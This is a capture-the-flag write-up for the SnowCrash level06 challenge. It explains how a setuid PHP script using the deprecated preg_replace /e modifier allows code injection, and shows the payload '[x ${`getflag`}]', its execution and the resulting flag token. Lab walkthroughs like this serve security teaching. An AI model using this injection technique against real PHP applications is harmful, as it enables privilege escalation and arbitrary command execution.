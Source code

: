 ## --------------> Vulnerability

Privilege escalation code injection

We have an executable with suid and enhanced rights in our home directory, as well as a php script  that tells us what the executable does.

```
level06@SnowCrash:~$ ls -la level06*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
  print $r;
?>

```

It accepts two parameters and executes the function x to retrieve the content of the first parameter, assuming the first parameter belongs to a file (see file get contents).
Then, using regular expressions, substitutions are made to this material.
The php script appears to employ the deprecated and vulnerable regex 'e' modifier.
As a result, the '/([x (.*)])/e regex will evaluate any text of the type "[x (.*)], interpret it as PHP code, and execute the 'y' function with ".*" as an argument.
This enables us to introduce code such as 'getflag'

```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$

```
